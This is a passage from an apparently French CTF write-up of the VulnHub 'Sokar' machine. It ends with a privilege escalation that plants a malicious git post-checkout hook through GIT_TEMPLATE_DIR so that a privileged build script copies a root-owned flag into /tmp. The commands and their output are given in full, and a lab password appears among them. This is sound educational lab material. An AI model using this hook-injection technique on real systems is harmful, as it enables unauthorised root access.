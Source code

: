 ```plain
|     V  u  l  n  H  u  b   ! !     |
| ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ |
|___________________________________|

=====================================
| Congratulations on beating Sokar! |
|                                   |
|  Massive shoutout to g0tmi1k and  |
| the entire community which makes  |
|         VulnHub possible!         |
|                                   |
|    rasta_mouse (@_RastaMouse)     |
=====================================
```

L'autre solution sans doute plus propre et de définir un hook Git qui concerne la commande clone, en particulier *post-checkout*.  

Comme on n'a pas d'accès pour écrire directement dans les hooks on fait une copie du dossier et on spécifie le chemin en environnement :  

```plain
[apophis@sokar ~]$ cp -r /usr/share/git-core/templates/ mytemplates
[apophis@sokar ~]$ cd mytemplates/hooks
[apophis@sokar hooks]$ echo '#!/bin/bash' > post-checkout
[apophis@sokar hooks]$ echo 'cp /root/flag /tmp/flag2' >> post-checkout
[apophis@sokar hooks]$ echo 'chown apophis.apophis /tmp/flag2' >> post-checkout
[apophis@sokar hooks]$ chmod +x post-checkout
[apophis@sokar hooks]$ cd ../..
[apophis@sokar ~]$ GIT_TEMPLATE_DIR=/home/apophis/mytemplates/ ./build
Build? (Y/N) Y
Y
Cloning into '/mnt/secret-project'...
Password: p4ssw0rd

remote: Counting objects: 4, done.        
remote: Compressing objects: 100% (4/4), done.        
remote: Total 4 (delta 0), reused 0 (delta 0)        s     
Receiving objects: 100% (4/4), 1.13 MiB | 350.00 KiB/s, done.
Checking connectivity... done.
[apophis@sokar ~]$ ls -l /tmp/flag2
-rw-r--r-- 1 apophis apophis 837 Mar 10 21:18 /tmp/flag2
```

Victory ! Conclusion de tout ça : l'IPv6 ça a du bon :p

*Published March 13 2015 at 18:03*
